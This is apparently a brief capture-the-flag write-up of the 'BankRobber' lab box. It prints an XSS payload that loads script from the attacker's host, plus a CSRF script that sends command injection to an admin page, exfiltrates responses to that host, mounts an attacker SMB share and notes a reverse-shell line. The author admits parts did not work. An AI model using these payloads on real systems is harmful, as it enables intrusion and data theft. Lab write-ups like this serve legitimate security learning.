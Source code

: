 # BankRobber

this box starts of with doing a XSS to gain the admin credentials, and once we gain the admin, again, we use a CSRF to exploit a functionality to gain code execution

XSS Used:

```text
This is on the webpage
<script src="http://10.10.14.28:81/script.js"></script>
```

```text
This is the script.js, used to do CSRF or is this SSRF? idk

var xhr = new XMLHttpRequest();
xhr.open('post', 'http://localhost/admin/backdoorchecker.php', true);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.withCredentials = true;

# couldn't get this piece to work, but including it anyway
xhr.onreadystatechange = function () {
    if (xhr.readyState === XMLHttpRequest.DONE) {
        //if (xhr.status === 200 || xhr.status === 302) {
            console.log(xhr.response);
            console.log(xhr.responseText);
        document.write('<img src="http://10.10.14.28:81/abcd?data=' + btoa(xhr.responseText) + btoa(xhr.response)+'" />');
        //}
    }
};

establishing a share on the remote machine
xhr.send('cmd=dir | net use x: \\\\10.10.14.28\\kalishare /user:guest guest ');
#xhr.send('cmd=dir | x:\\shell.exe'); => this gets us reverse shell;
```

after getting a root shell, we see a process on port 910. on a bit usual stuff, its a simple buffer overflow :\)

